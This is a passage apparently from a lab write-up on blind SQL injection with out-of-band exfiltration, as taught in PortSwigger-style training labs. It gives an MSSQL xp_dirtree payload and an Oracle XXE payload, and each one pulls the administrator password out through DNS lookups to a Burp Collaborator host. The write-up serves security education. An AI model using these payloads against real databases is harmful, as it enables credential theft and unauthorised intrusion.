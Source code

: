 And if you triggered everything properly it solves the lab by interracting with Collaborator

Now we would need to use the out-of-band channel to exfiltrate data from the vulnerable application

```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password:

```
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

* **declare @p varchar(1024)**: This line declares a variable `@p` of type `varchar` with a maximum length of 1024 characters.
* **set @p=(SELECT password FROM users WHERE username='Administrator')**: This SQL statement selects the password associated with the username 'Administrator' from the 'users' table and assigns it to the variable `@p`.
* **exec('master..xp\_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')**: This part executes a dynamic SQL statement using the `exec` function. It constructs a command to execute the extended stored procedure `xp_dirtree` from the `master` database. The procedure is being used to traverse directories on the server. The directory path is constructed dynamically using the value of the `@p` variable concatenated with a fixed string and a Burp Collaborator URL.
* **--**: This is a comment in SQL, indicating that everything after `--` is ignored by the SQL engine.

### Lab: Blind SQL injection with out-of-band data exfiltration

```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (4).png" alt=""><figcaption></figcaption></figure>
